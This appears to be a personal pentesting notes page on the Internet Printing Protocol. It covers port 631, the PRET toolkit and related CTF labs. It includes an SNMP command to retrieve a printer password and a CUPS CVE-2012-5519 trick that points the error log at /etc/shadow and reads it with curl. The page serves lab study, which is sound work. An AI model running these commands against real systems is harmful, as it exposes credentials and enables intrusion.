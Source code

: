 # Internet Printing Protocol (IPP)

<div class="row row-cols-lg-2"><div>

The Internet Printing Protocol (IPP) is protocol to manage printers and print jobs, query printer status, and other tasks.

🐊️ **Port**: 631 (TCP)

Refer to the [IPP Guide](https://www.pwg.org/ipp/ippguide.html). Not all printers use the IPP protocol. See also: [Hacking Network Printers](https://www.irongeek.com/i.php?page=security/networkprinterhacking).
</div><div>
</div></div>

<hr class="sep-both">

## IPP vulnerabilities ☠️

[![printerhacking101](../../../cybersecurity/_badges/thm/printerhacking101.svg)](https://tryhackme.com/room/printerhacking101)

<div class="row row-cols-lg-2"><div>

👉 See the [Printer Security Testing Cheat Sheet](http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet).

You can use the [PRET](https://github.com/RUB-NDS/PRET) <small>(3.4k ⭐)</small> toolkit to try to exploit printers using the IPP protocol. You can install it using: 

```shell!
$ git clone https://github.com/RUB-NDS/PRET && cd PRET
$ python2 -m pip install colorama pysnmP
```

Discover printers

```ps
$ python pret.py
```

</div><div>

Once you found a printer, you must find which language the printer understands

* `xxx.lan ps`: Postscript language
* `IP pjl`: Printer Job language
* `/dev/usb/lp0 pcl`: Printer Command Language, Must be directly connected <small>(for instance, by USB)</small>.

```ps
$ python pret.py [options above]
xxx> help
```

➡️ You can check the web interface <small>(IP:631)</small> if any.

➡️ You may use [PRETty](https://github.com/BusesCanFly/PRETty) <small>(0.2k ⭐)</small>, an automation of PRET in python.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

[![antique](../../../cybersecurity/_badges/htb-p/antique.svg)](https://app.hackthebox.com/machines/Antique)

* SNMP could be used to get the printer password (`snmpget -v 1 -c public IP .1.3.6.1.4.1.11.2.3.9.1.1.13.0`) 

```py
bytes_hex = "<returned bytes here>"
bytes_list = bytes_hex.split()
print("".join([chr(int(byte, 16)) for byte in bytes_list]))
```

* CUPS (CVE-2012-5519 == arbitrary read or if there are printers, we can also use [CVE-2015-1158](https://github.com/0x00string/oldays/blob/master/CVE-2015-1158.py))

```
$ cupsctl ErrorLog=/etc/shadow
$ curl localhost:631/admin/log/error_log?
```
</div><div>
</div></div>